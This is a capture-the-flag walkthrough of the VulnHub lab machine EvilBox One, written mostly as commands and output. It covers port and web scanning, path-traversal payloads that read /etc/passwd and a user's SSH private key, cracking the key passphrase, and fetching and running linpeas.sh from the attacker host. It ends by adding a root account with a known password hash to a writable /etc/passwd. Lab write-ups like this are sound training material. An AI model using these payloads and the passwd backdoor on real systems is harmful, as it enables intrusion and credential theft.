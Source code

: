 ****
```http
https://www.vulnhub.com/entry/evilbox-one,736/
```
> [!NOTE]
> IP:192.168.3.181
___
# Recon
## Nmap
```bash
sudo nmap -p- -sC -sV -Pn -T5 192.168.3.181 -vv
```

```bash resoult  
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:95:50:0b:e4:73:a1:85:11:ca:10:ec:1c:cb:d4:26 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDsg5B3Ae75r4szTNFqG247Ea8vKjxulITlFGE9YEK4KLJA86TskXQn9E24yX4cYMoF0WDn7JD782HfHCrV74r8nU2kVTw5Y8ZRyBEqDwk6vmOzMvq1Kzrcj+i4f17saErC9YVgx5/33e7UkLXt3MYVjVPIekf/sxWxS4b6N0+J1xiISNcoL/kmG3L7McJzX6Qx6cWtauJf3HOxNtZJ94WetHArSpUyIsn83P+Quxa/uaUgGPx4EkHL7Qx3AVIBbKA7uDet/pZUchcPq/4gv25DKJH4XIty+5/yNQo1EMd6Ra5A9SmnhWjSxdFqTGHpdKnyYHr4VeZ7cpvpQnoiV4y9
|   256 27:db:6a:c7:3a:9c:5a:0e:47:ba:8d:81:eb:d6:d6:3c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJdleEd7RFnYXv0fbc4pC3l/OWWVAe8GNgoY3hK3C5tlUCvQF+LUFKqe5esCmzIkA8pvpNwEqxC8I2E5XjUtIBo=
|   256 e3:07:56:a9:25:63:d4:ce:39:01:c1:9a:d9:fe:de:64 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICqX8NlpHPg67roxI6Xi8VzNZqC5Uj9KHdAnOcD6/q5/
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:61:81:92 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> [!info]
> Open ports 22-SSH  OpenSSH 7.9p1 Debian 10+deb10u2 and 80 http Apache httpd 2.4.38
___

# WEB

> [!important]
> 80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.38 ((Debian)

### Scan nikto
```bash
nikto -h 192.168.3.181:80
```

```bash resoults
+ Server: Apache/2.4.38 (Debian)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Apache/2.4.38 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD .
+ /secret/: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ 8102 requests: 0 error(s) and 7 item(s) reported on remote host
```

```http
http://192.168.3.181/secret/
___
n/a
```

```http
http://192.168.3.181/icons/README
```

### Dirsearch
![EvilBox One](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/EvilBox/screenshots/20250514065937.png)

### FFUF
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt:FFUZ -u http://192.168.3.181/secret/FFUZ.php -ic -c    
```

```http 
http://192.168.3.181/secret/evil.php
```

## FUZZING TO LFI
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt:FFUZ -u http://192.168.3.181/secret/evil.php?FFUZ=..//..//..//..//..//..//etc/passwd -ic -c  -fs 0
```

```resoults
http://192.168.3.181/secret/evil.php?command=/../../../../etc/passwd
```

> [!Users]
> root:x:0:0:root:/root:/bin/bash
> mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash

# SSH

> [!success]
> 22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

```http
http://192.168.3.181/secret/evil.php?command=/../../../../home/mowree/.ssh/id_rsa
```

![EvilBox One](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/EvilBox/screenshots/20250514174544.png)

## John crack 
```bash
ssh2john key > hash.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![EvilBox One](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/EvilBox/screenshots/20250514175830.png)
___
```CREDS
mowree:unicorn
```
___
```bash
chmod 600 key
```

```bash
ssh -i key mowree@192.168.3.181
```

![EvilBox One](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/EvilBox/screenshots/20250514180433.png)
# Flag 1
![EvilBox One](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/EvilBox/screenshots/20250514180558.png)
___
# LPE
```bash
uname -a
```

```bash resoult
Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
```
___
## Linpeas
```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

```bash
python3 -m http.server 80
```

```bash
wget http://192.168.3.182/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

![EvilBox One](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/EvilBox/screenshots/20250514181651.png)

```ls -la
-rw-rw-rw- 1 root root 1398 ago 16  2021 /etc/passwd
```

```bash
openssl passwd -1 goose1337
$1$UhTL/xF/$Ml8EXW6BnAteNXdnmfBFD.
```

```nano
GooseGusevich:$1$UhTL/xF/$Ml8EXW6BnAteNXdnmfBFD.:0:0:Goose:/home/GooseGusevich:/bin/bash
```

# Flag2
![EvilBox One](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/EvilBox/screenshots/20250514183953.png)
